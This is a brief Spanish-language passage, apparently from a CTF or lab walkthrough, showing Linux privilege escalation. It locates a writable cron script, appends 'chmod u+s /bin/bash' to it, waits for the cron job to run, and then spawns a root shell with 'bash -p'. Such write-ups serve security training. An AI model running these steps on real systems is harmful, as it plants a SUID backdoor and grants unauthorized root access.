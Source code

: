 `find / -name .mysecretcronjob.sh 2>/dev/null`

![[Pasted image 20250725104828.png]]

`cd /var/www`

Se verifica si se tienen permisos de escritura.

`ls -la`

![[Pasted image 20250725104929.png]]

Se edita el archivo y se agrega la línea: `chmod u+s /bin/bash`.

`cat .mysecretcronjob.sh`

![[Pasted image 20250725105116.png]]

Se espera a que se ejecute la tarea **CRON**.

`bash -p`

![[Pasted image 20250725105203.png]]

---